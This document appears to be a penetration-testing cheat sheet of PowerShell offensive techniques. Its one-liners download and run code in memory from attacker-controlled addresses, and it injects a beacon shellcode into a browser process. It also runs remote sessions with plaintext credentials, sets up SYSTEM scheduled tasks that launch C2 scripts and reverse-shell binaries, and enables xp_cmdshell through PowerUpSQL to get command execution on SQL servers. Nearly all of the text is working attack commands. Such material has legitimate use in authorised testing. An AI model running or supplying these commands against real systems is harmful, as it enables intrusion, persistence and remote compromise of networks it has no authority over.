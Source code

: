 # Execution

## Executing Shellcode

### Empire's `Invoke-Shellcode`

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1');
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin");
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b;
```
{% endcode %}

Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`

### Executable to In-Memory Assembly Code

Reflectively loading a binary as assembly code

{% code overflow="wrap" %}
```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```
{% endcode %}

### Download and Execute in Memory

GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)

{% code overflow="wrap" %}
```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)
```
{% endcode %}

Additionally, there are additional methods here: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

{% code overflow="wrap" %}
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```
{% endcode %}

## WinRM

The following will establish a WinRM session and execute commands remotely.

{% code overflow="wrap" %}
```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess;
}
```
{% endcode %}

Or, you can gain an interactive session.

{% code overflow="wrap" %}
```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```
{% endcode %}

## PowerShell Execution via Text File

{% code overflow="wrap" %}
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke();
```
{% endcode %}

## Scheduled Task Creation

{% code overflow="wrap" %}
```powershell
$Script = 'C:\tmp\C2.ps1';
$TaskName = 'C2 PoC for SYSTEM';
$Description = 'A proof-of-concept for scheduled task creation';
$User = "NT AUTHORITY\SYSTEM";
$Executable = "powershell.exe";
$Action = New-ScheduledTaskAction -execute $Executable -Argument "-file $Script";
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).Date -RepetitionInterval (New-TimeSpan -Hours 24);
$Settings = New-ScheduledTaskSettingsSet –StartWhenAvailable;
Register-ScheduledTask -TaskName $TaskName -Trigger $Trigger -Action $Action -Setting $Settings -Description $Description -User $User -RunLevel Highest;
```
{% endcode %}

Or

{% code overflow="wrap" %}
```powershell
schtasks /create /sc minute /mo 1 /tn burmat /tr \tmp\reverse443.exe /ru SYSTEM
```
{% endcode %}

## PowerUpSQL

GitHub Repo: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) and more thorough cheat sheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

### MSSQL Server Enumeration

{% code overflow="wrap" %}
```powershell
## basic instance information
Get-SQLInstanceLocal

## more verbose information:
Get-SQLServerInfo -Verbose -Instance SQLSRV\SQLEXPRESS

## crawl for databse links:
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS
```
{% endcode %}

### Enumerate User Privileges

Full credit to: [https://github.com/lkys37en](https://github.com/lkys37en)

{% code overflow="wrap" %}
```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co";
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator;
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName;

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation;

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10;
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation;

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}
	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole;
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append;
}
```
{% endcode %}

### Enable xp\_cmdshell / Execute Commands

{% code overflow="wrap" %}
```powershell
## enable xp_cmdshell:
Get-SQLQuery -Instance SQLSRV\SQLEXPRESS -query "EXECUTE('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""sqlsrv.burmat.local"""

## test rce:
Get-SQLServerLinkCrawl -Instance "SQLSRV\SQLEXPRESS" -Query "exec master..xp_cmdshell 'whoami'" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}

### Execute DB Query via MSSQL Link

{% code overflow="wrap" %}
```powershell
Get-SqlServerLinkCrawl -Verbose -Instance SQLSRV\SQLEXPRESS -Query "select name from master..sysdatabases" | Select-Object -ExpandProperty CustomQuery
```
{% endcode %}
